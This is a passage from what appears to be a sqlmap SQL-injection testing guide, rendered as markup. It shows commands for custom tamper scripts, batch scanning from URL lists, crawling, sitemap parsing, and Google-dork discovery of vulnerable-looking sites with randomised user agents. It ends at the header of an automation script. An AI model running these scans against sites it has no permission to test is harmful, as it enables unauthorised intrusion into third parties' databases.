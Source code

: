     # Use custom tamper script
    python sqlmap.py -u "http://target.com/page?id=1" \
      --tamper=/path/to/custom_tamper.py
:::
:::

::: {#automation .section .section}
## Automation & Scripting

### Batch Testing with Lists

::: {.attack-vector .risk-medium}
#### Mass Scanning

::: code-block
    # Test multiple URLs from file
    python sqlmap.py -m urls.txt --batch --random-agent

    # Google dorking integration
    python sqlmap.py -g "inurl:php?id=" --random-agent --batch

    # Crawling and testing
    python sqlmap.py -u "http://target.com" --crawl=3 --batch

    # Sitemap parsing
    python sqlmap.py -u "http://target.com/sitemap.xml" --batch
:::
:::

### Automated Enumeration Script

::: terminal-window
::: terminal-header
::: terminal-buttons
::: {.terminal-button .close}
:::

::: {.terminal-button .minimize}
:::

::: {.terminal-button .maximize}
:::
:::

[auto_sqlmap.sh]{style="color: #ccc; margin-left: 10px;"}
:::
